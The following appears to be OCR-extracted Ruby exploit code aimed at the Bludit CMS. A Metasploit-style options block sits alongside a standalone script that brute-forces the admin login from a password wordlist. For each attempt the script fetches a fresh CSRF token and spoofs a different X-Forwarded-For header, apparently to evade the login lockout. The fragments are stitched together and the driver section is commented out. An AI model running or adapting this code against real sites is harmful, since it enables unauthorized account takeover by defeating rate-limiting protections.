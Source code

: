 ```ruby
      [
        OptString.new('TARGETURI', [true, 'The base path for Bludit', '/']),
        OptString.new('BLUDITUSER', [true, 'The username for Bludit']),
        OptPath.new('PASSWORDS', [ true, 'The list of passwords',
        	File.join(Msf::Config.data_directory, "wordlists", "passwords.txt") ])
      ])
  end
  
  # -- Exploit code -- #
  # dirty workaround to remove this warning:
#   Cookie#domain returns dot-less domain name now. Use Cookie#dot_domain if you need "." at the beginning.
# see https://github.com/nahi/httpclient/issues/252
class WebAgent
  class Cookie < HTTP::Cookie
    def domain
      self.original_domain
    end
  end
end

def get_csrf(client, login_url)
  res = client.get(login_url)
  csrf_token = /input.+?name="tokenCSRF".+?value="(.+?)"/.match(res.body).captures[0]
end

def auth_ok?(res)
  HTTP::Status.redirect?(res.code) &&
    %r{/admin/dashboard}.match?(res.headers['Location'])
end

def bruteforce_auth(client, host, username, wordlist)
  login_url = host + '/admin/login'
  File.foreach(wordlist).with_index do |password, i|
    password = password.chomp
    csrf_token = get_csrf(client, login_url)
    headers = {
      'X-Forwarded-For' => "#{i}-#{password[..4]}",
    }
    data = {
      'tokenCSRF' => csrf_token,
      'username' => username,
      'password' => password,
    }
    puts "[*] Trying password: #{password}"
    auth_res = client.post(login_url, data, headers)
    if auth_ok?(auth_res)
      puts "\n[+] Password found: #{password}"
      break
    end
  end
end

#begin
#  args = Docopt.docopt(doc)
#  pp args if args['--debug']
#
#  clnt = HTTPClient.new
#  bruteforce_auth(clnt, args['--root-url'], args['--user'], args['--#wordlist'])
#rescue Docopt::Exit => e
#  puts e.message
#end
```